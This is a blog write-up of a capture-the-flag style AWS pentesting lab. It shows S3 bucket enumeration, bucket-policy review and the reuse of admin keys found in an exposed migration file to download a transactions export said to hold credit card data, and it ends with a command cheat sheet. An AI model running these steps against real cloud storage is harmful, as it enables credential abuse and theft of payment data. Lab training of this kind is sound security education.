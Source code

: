 ```yaml
---
title: "Intro to AWS & S3 Bucket Attacking"
date: 2025-05-17
draft: false
language: en
featured_image: ../assets/images/posts/pacuIcon.png
summary: A walkthrough of the Intro to AWS Pentesting Attacking S3 Buckets for Credit Card Info
authorimage: ../assets/images/posts/cyber-immuno-fusion.png
categories: Blog
tags: ["AWS Pentesting", "S3", "AWS", "Enumeration"]
---
```

# Introduction & Context

Hey guys! This write-up is for the S3 Bucket attack for Credit Card info, available [here](https://academy.simplycyber.io/l/pdp/introduction-to-aws-pentesting). If you don't know what that is, it's a full course that teaches you how to hack (ethically of course) AWS, using both automated and manual methods. This particular challenge is focused on S3 bucket enumeartion and we're trying to find exposed credit card information. Before starting this lab, make sure you have the lab ready and note your domain:

```html
http://dev.huge-logistics.com
```

This lab I did end up going down a rabbit hole (definitely overthought this one through), but that was a great learning experience. I'll explain my thought process for those because maybe that will end up being useful for a future task (you never know!). Now into the lab!

# Setup

Now that we have some credential, step 1 is to configure a profile. We have all the information from the previous walkthrough video, so it's just a few quick steps

```bash
aws configure --profile pwn
#Access Key: KEY_VALUE
#Secret Key: SECRET_KEY
#Region: us-east-1
#Output format: json
```

# Admin Path Search

Now this section is a bit of a rabbit hole, so expect a bit of rambling here (you could probably skip this section entirely). I started by trying to look at the original bucket with my new profile, maybe I have access to new files perhaps?

```bash
aws s3 ls s3://dev.huge-logistics.com --profile pwn
```

Nope, there was nothing new in there. How about we check the folders there then? I started by looking into `admin` and we found something interesting.

```bash
aws s3 ls s3://dev.huge-logistics.com/admin/ --profile pwn
2023-10-16 08:08:38          0 
2024-12-02 06:57:44         32 flag.txt
2023-10-16 13:24:07       2425 website_transactions_export.csv
```

That csv file probably is the one we're trying to get for this challenge, so I tried to download it with `aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv --profile pwn`. But that was forbidden. For now. So maybe it was time for creative thinking perhaps. The two prefixes `cp` and `ls` are standard kali commands, so I thought maybe I could just `cat` the file out. That didn't work either, but the output of the error message was pretty helpful.

```bash
aws s3 cat s3://dev.huge-logistics.com/admin/flag.txt --profile pwn

usage: aws [options] <command> <subcommand> [<subcommand> ...] [parameters]
To see help text, you can run:

  aws help
  aws <command> help
  aws <command> <subcommand> help

aws: error: argument subcommand: Invalid choice, valid choices are:

ls                                       | website                   
cp                                       | mv                        
rm                                       | sync                      
mb                                       | rb                        
presign                     
```

The one that seemed the most interesting was `mv`. From what it seemed I had download permissions in the main bucket but not in the admin section. So what if I moved the flag from the admin to the main and then download it? I tried `aws s3 mv s3://dev.huge-logistics.com/admin/website_transactions_export.csv .. --profile pwn`. And you know what? Permission denied.

At this point, I felt a little stumped. I could not download read or move the file at all. But there were some other commands I could try. I wasn't going to go try each and everyone though, that's too much. But I did take a look at the cheatsheet and found this command `aws s3api get-bucket-policy --bucket [bucket-name]`.

That command would let me see what I could actually do (or not). So I ran `aws s3api get-bucket-policy --bucket dev.huge-logistics.com` and we got a big json response. But the one I got had a bunch of newlines everywhere, so I asked ChatGPT to clean it up. Here's the critical part:

```json
{
        "Sid": "AllowAllExceptAdmin",
        "Effect": "Allow",
        "Principal": {
          "AWS": [
            "arn:aws:iam::794929857501:user/it-admin",
            "arn:aws:iam::794929857501:user/pam-test"
          ]
        },
        "Action": [
          "s3:Get*",
          "s3:List*"
        ],
        "Resource": [
          "arn:aws:s3:::dev.huge-logistics.com",
          "arn:aws:s3:::dev.huge-logistics.com/*"
        ]
      },
      {
        "Sid": "ExplicitDenyAdminAccess",
        "Effect": "Deny",
        "Principal": {
          "AWS": "arn:aws:iam::794929857501:user/pam-test"
        },
        "Action": "s3:*",
        "Resource": "arn:aws:s3:::dev.huge-logistics.com/admin/*"
      }
```

The only principal allowed to get anything from the admin path would be the `it-admin`. I was denied persmission, so I must be `pam-test`. If that's the case, the policy bans me from doing anything on the bucket. So that's a dead end. I have to find a way to become `it-admin`

# Searching the Migration files

If we do a request into this file directory, we see we know have permissions! Run `aws s3 ls s3://dev.huge-logistics.com/migration-files/ --profile pwn` to check yourself. This must have something good. And it seems like it did. There is a file called `test-export.xml`. Now if you don't know **xml** is a form of storing data in an organized matter, kind of like **json**. So if you find a data file in a directory called migration files, you probably have found something. So I ran `aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml . --profile pwn` and we got some sweet credentials!

```xml
<!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>KEYVALUE.</AccessKeyID>
        <SecretAccessKey>SECRETKEY.</SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
```

Don't share those keys!

# Grabbing the credit card details

Start by configuring a profile with those credentials

```bash
aws configure --profile admin
#Access Key: KEYVALUE
#Secret Key: SECRETKEY
#Region: us-east-1
#Output format: json
```

Now let's try to grab that `csv` file we saw earlier using `aws s3 cp s3://dev.huge-logistics.com/admin/website_transactions_export.csv --profile admin`. And we got it! The flag there is for the platform specifically, add it in and grab those points.

Amazing, we managed to go from a single website to compromosing credit card credentials. That's a long ways and it was actually not too bad (ignoring the little rabit hole). But fun indeed!

# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.

```bash
#Start Up
aws configure --profile pwn
	#Pass in values

#Enumeration of admin
aws s3 ls s3://dev.huge-logistics.com --profile pwn
aws s3 ls s3://dev.huge-logistics.com/admin/ --profile pwn
aws s3api get-bucket-policy --bucket dev.huge-logistics.com

#Enumeration of migration
aws s3 ls s3://dev.huge-logistics.com/migration-files/ --profile pwn
aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml . --profile pwn

#New admin profile
aws configure --profile admin
	#Pass in values

#Grabbing the goods!
aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt --profile admin
aws s3 cp s3://dev.huge-logistics.com/admin/`website_transactions_export.csv --profile admin
```
